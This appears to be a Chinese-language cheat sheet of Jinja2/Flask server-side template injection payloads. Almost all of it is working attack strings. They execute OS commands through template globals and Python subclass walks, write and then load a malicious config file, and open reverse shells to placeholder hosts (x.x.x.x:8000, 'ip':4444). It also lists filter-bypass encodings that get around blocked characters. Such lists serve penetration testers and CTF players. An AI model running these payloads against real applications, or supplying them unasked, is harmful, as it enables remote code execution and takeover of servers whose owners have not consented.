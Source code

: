 	{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

	{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
	较短的payload
	{{ cycler.__init__.__globals__.os.popen('id').read() }}

	{{ joiner.__init__.__globals__.os.popen('id').read() }}

	{{ namespace.__init__.__globals__.os.popen('id').read() }}
	通过调用 subprocess.Popen 来 SSTI
	{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
	{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
	调用 Popen 来利用 SSTI 而无需猜测偏移量
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
	https://twitter.com/SecGus/status/1198976764351066113
	只需修改payload以清理输出，在另一个 GET 参数中包含一个名为“input”的变量，其中包含您要运行的命令（例如： &输入=ls)
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
	编写恶意配置文件来利用 SSTI
	# 恶意配置文件
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

	# 加载
	{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

	# 反弹
	{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
	绕过过滤
	request.__class__
	request["__class__"]
	绕过 _
	http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

	{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
	{{request|attr(["_"*2,"class","_"*2]|join)}}
	{{request|attr(["__","class","__"]|join)}}
	{{request|attr("__class__")}}
	{{request.__class__}}
	绕过[和]
	http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
	or
	http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
	绕过|join
	http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
	绕过最常见的过滤器（'.'、'_'、'|join'、'['、']'、'mro' 和 'base'）
	https://twitter.com/SecGus
	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
 #### Jinjava
  	基本注入